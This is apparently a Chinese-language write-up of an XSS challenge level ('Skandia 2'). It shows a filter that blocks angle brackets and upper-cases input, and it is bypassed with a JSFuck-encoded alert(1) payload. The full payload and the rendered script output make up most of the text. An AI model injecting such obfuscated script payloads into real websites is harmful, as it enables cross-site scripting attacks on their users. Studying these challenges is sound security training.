 

## Skandia 2

```javascript
function escape(s) {
  if (/[<>]/.test(s)) return '-';

  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```

不能出现尖括号，有尖括号直接`return '-'`

输入的小写字母会被转化为大写

之前绕过转化大写的方法失效

```
");alert(1)//
```

能输入这个就完事了，关键在于构造alert(1)

可以利用jsfuck构造alert(1)

了解一下jsfuck这个名字直接口吐芬芳的东西

http://www.jsfuck.com/

Payload

```javascript
");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//
```

Output

```javascript
<script>console.log("");[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]][([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+([][[]]+[])[+!+[]]+(![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[+!+[]]+([][[]]+[])[+[]]+([][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[+!+[]+[+[]]]+(!![]+[])[+!+[]]]((![]+[])[+!+[]]+(![]+[])[!+[]+!+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]+(!![]+[])[+[]]+(![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]]+[+!+[]]+(!![]+[][(![]+[])[+[]]+([![]]+[][[]])[+!+[]+[+[]]]+(![]+[])[!+[]+!+[]]+(!![]+[])[+[]]+(!![]+[])[!+[]+!+[]+!+[]]+(!![]+[])[+!+[]]])[!+[]+!+[]+[+[]]])()//")</script>
```
